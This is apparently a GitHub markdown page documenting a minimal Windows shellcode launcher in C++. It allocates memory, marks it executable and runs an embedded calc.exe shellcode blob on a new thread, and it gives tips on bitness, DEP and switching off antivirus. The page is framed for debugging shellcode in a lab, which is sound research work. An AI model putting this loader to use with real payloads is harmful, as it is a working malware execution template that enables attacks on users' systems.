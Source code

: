 # PoC — Shellcode Launcher (for debugging)

This page documents a tiny **shellcode launcher** program that allocates memory, copies a shellcode blob into it, marks it executable, and runs it on a new thread. It’s intentionally minimal and **useful when you want to debug a shellcode** (step through it, inspect memory/registers, verify APIs it resolves, etc.) in a controlled lab.


---

# Overview

The program:

1. Allocates RW memory with `VirtualAlloc`.
2. Copies the shellcode bytes into that buffer.
3. Changes protection to `PAGE_EXECUTE_READ` with `VirtualProtect` (W^X).
4. Creates a thread at the shellcode entry and waits for it to finish.

This keeps the code short and easy to instrument with a debugger.

---

# Program 

```cpp
/*
cpp implementation malware example with calc.exe payload
src: https://medium.com/@s12deff/executing-malicious-shell-code-with-c-8ad034e45044
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
0x89, 0xe5, 0x83, 0xec, 0x20, 0x31, 0xdb, 0x64, 0x8b, 0x5b, 0x30, 0x8b, 0x5b, 0x0c, 0x8b, 0x5b,
0x1c, 0x8b, 0x1b, 0x8b, 0x1b, 0x8b, 0x43, 0x08, 0x89, 0x45, 0xfc, 0x8b, 0x58, 0x3c, 0x01, 0xc3,
0x8b, 0x5b, 0x78, 0x01, 0xc3, 0x8b, 0x7b, 0x20, 0x01, 0xc7, 0x89, 0x7d, 0xf8, 0x8b, 0x4b, 0x24,
0x01, 0xc1, 0x89, 0x4d, 0xf4, 0x8b, 0x53, 0x1c, 0x01, 0xc2, 0x89, 0x55, 0xf0, 0x8b, 0x53, 0x14,
0x89, 0x55, 0xec, 0xeb, 0x32, 0x31, 0xc0, 0x8b, 0x55, 0xec, 0x8b, 0x7d, 0xf8, 0x8b, 0x75, 0x18,
0x31, 0xc9, 0xfc, 0x8b, 0x3c, 0x87, 0x03, 0x7d, 0xfc, 0x66, 0x83, 0xc1, 0x08, 0xf3, 0xa6, 0x74,
0x05, 0x40, 0x39, 0xd0, 0x72, 0xe4, 0x8b, 0x4d, 0xf4, 0x8b, 0x55, 0xf0, 0x66, 0x8b, 0x04, 0x41,
0x8b, 0x04, 0x82, 0x03, 0x45, 0xfc, 0xc3, 0xba, 0x78, 0x78, 0x65, 0x63, 0xc1, 0xea, 0x08, 0x52,
0x68, 0x57, 0x69, 0x6e, 0x45, 0x89, 0x65, 0x18, 0xe8, 0xb8, 0xff, 0xff, 0xff, 0x31, 0xc9, 0x51,
0x68, 0x2e, 0x65, 0x78, 0x65, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x89, 0xe3, 0x41, 0x51, 0x53, 0xff,
0xd0, 0x31, 0xc9, 0xb9, 0x01, 0x65, 0x73, 0x73, 0xc1, 0xe9, 0x08, 0x51, 0x68, 0x50, 0x72, 0x6f,
0x63, 0x68, 0x45, 0x78, 0x69, 0x74, 0x89, 0x65, 0x18, 0xe8, 0x87, 0xff, 0xff, 0xff, 0x31, 0xd2,
0x52, 0xff, 0xd0
};

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
    void* my_payload_mem; // memory buffer for payload
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // Allocate a memory buffer for payload
    my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // copy payload to buffer
    RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

    // make new buffer as executable
    rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
    if (rv != 0) {
        // run payload
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }
    return 0;
}
```

---

# How to use (for debugging shellcode)

1. **Insert your shellcode** into `g_shellcode` (and update length if you paste manually).
2. **Compile**.
3. **Set a breakpoint** at the printed buffer address (or on `CreateThread/_beginthreadex`) in your debugger (x64dbg/WinDbg/IDA).
4. **Run and step** into the buffer to debug instructions, inspect stack, confirm API resolves, etc.

> Tip: If your shellcode expects arguments or a specific context, stub them before the call, or use a small trampoline that sets up registers/stack.

---

# Important notes & troubleshooting

* **DEP / W^X:** Use `VirtualAlloc` with RW, then `VirtualProtect` to RX (as shown). Avoid RWX; some EDRs flag it and it’s a bad habit.
* **Bitness:** Match your shellcode with the launcher (x86 vs x64). 32-bit shellcode under WOW64 must be launched by a 32-bit process.
* **ASLR-aware absolute addresses:** If your shellcode uses absolute module addresses, ensure it resolves bases dynamically (PEB/TEB walks or `GetModuleHandle` via imports) or uses RIP-relative code.
* **Null bytes in shellcode:** Fine here—bytes are copied verbatim. Only a concern when embedding in C-strings or passing through string APIs.
* **Console privileges:** Normal user context is fine for local execution. Admin is not required unless your shellcode does privileged actions.
* **AV/EDR:** Benign lab shellcode can still be flagged. If you’re only **debugging**, disable the product in a disposable VM, or add exclusions for your lab folder.
